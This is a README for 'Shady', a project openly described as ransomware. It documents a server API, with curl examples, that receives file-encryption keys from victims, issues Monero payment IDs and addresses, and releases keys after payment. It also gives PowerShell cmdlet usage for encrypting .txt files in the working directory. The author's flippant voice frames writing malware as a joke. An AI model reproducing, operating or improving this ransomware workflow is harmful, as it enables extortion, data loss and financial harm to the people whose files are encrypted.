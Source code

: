 # Shady

Very basic ransomware implementation that encrypts files, sends encryption keys to the API server, requests Monero from the user. Uses [MoneroPay](https://gitlab.com/moneropay/moneropay) to track payments sent by the victim. Provides an endpoint for the user to download keys to decrypt their files if the payment has arrived.

That's right. The only way I will ever touch Powershell is if it's gonna be straight up malware. Universities need to stop teaching proprietary software that nobody uses. Teach a [real](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html) shell, not a C# interpreter.

>Now there's a MoneroPay powered ransomware that isn't the original Moneropay ransomware which wasn't powered by MoneroPay.\
-- crtoff

## Server
### POST /encrypt
```sh
curl -X POST http://baseurl:1337/encrypt -d "key=keystring"
```

#### Response
```
740f1fb1-c47d-4059-8104-accdc718a1b4 8BGoVn4r5mPL9qYjFmaNGyLKmVvHzQj6Z51YpPL67br9fynLsjaEG7PJaTpmjbUi7bWikXmaBTo7pWdbLo1CQMqiUFrBzPV 0.1
```

The format is as follows: [Payment ID] [Monero address] [Monero amount in float]

### GET /decrypt/{id}
```sh
curl -X GET http://baseurl:1337/decrypt/{payment_id}
```

#### Response
If the ransom was paid the response body will contain the key that will be used to decrypt the files.

### POST /callback/{id}
This endpoint is given to MoneroPay to callback.

## Client
Import as cmdlet:
```
Import-Module shady-client.ps1
```

Encrypt all files with .txt extension in the current working directory:

```
Shady-Client -Encrypt
```

Decrypt files once the ransom has been paid:
```
Shady-Client -Decrypt
```
